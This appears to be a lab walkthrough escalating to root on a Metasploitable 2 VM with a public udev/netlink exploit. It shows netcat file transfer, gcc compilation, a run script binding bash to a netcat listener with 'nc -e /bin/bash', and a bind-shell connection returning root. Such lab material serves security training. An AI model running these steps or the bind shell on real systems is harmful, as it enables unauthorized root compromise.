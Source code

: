 Linux Kernel 2.6 UDEV < 141 – Local Privilege Escalation Exploit Example
**Attacker:** Kali Linux<br>
**Victim:** Metasploitable 2<br>
<br>
Note: This exploit leverages a vulnerability in NETLINK.<br>
More information on NETLINK can be found on the Linux Foundation website (<http://www.linuxfoundation.org/collaborate/workgroups/networking/generic_netlink_howto>).
##Download the Exploit from ExploitDB
Head over to the Exploit Database and download Jon Oberheide’s udev exploit for Linux Kernel 2.6 (<https://www.exploit-db.com/exploits/8572/>).
##Telnet to Metasploitable 2, then Upload and Compile the Exploit
Telnet to Metasploitable 2 then start a netcat listener.<br>
In Kali, We’re going to tar the exploit and pipe the output to netcat.<br>
In Metasploitable 2, we’re going to receive and untar the exploit, then compile it with gcc.
<code>
<div class="code">
root@kali:~$ <com>telnet 192.168.1.10</com><br>
Trying 192.168.1.10...<br>
Connected to 192.168.1.10.<br>
<br>
Contact: msfdev[at]metasploit.com<br>
Login with msfadmin/msfadmin to get started<br>
metasploitable login: <com>msfadmin</com><br>
Password: <com>msfadmin</com><br>
Linux metasploitable 2.6.24-16-server #1 SMP i686<br>
<br>
msfadmin@metasploitable:~$ <com>nc -lvp 12345 | tar -xf -</com><br>
listening on [any] 12345 ...
</div>
</code>
Open a new tab, tar the exploit and pipe the output to netcat
<code>
<div class="code">
root@kali:~$ <com>tar -cf - 8572.c | nc -vn 192.168.1.10 12345</com><br>
(UNKNOWN) [192.168.1.10] 12345 (?) open
</div>
</code>
Back in the first tab we can see our Kali Machine connect.<br>
Allow a few seconds for the file transfer to complete then CTRL+C to end the session.<br>
Check the exploit has been received, then compile with gcc.<br>
<code>
<div class="code">
connect to [192.168.1.10] from kali [192.168.1.182] 48411<br>
msfadmin@metasploitable:~$ <com>ls -lah 8572.c</com><br>
-rw-r--r-- 1 msfadmin msfadmin 2.9K 2015-11-05 04:14 8572.c<br>
msfadmin@metasploitable:~$ <com>gcc 8572.c -o 8572</com>
</div>
</code>
##Executing the Exploit
Now we just need to get the PID of the the udevd netlink socket on Metasploitable 2, create our run script (bind an instance of bash to a netcat listener) and execute the exploit
<code>
<div class="code">
msfadmin@metasploitable:~$ <com>cat /proc/net/netlink</com><br>
df552800 15 2738 00000001 0 0 00000000 2<br>
msfadmin@metasploitable:~$ <com>cd /tmp</com><br>
msfadmin@metasploitable:/tmp$ <com>nano run</com><br>
<com>#!/bin/bash</com><br>
<com>nc -lvvp 2345 -e /bin/bash</com><br>
msfadmin@metasploitable:/tmp$ <com>cd</com><br>
msfadmin@metasploitable:~$ <com>./8572 2738</com><br>
</div>
</code>
Open a new tab and connect to the bind shell
<code>
<div class="code">
root@kali:~$ <com>nc -vn 192.168.1.10 2345</com><br>
(UNKNOWN) [192.168.1.10] 2345 (?) open<br>
<com>python -c "import pty;pty.spawn('/bin/bash')"</com><br>
root@metasploitable:/# <com>whoami</com><br>
root
</div>
</code>

Tags: privilege-escalation 
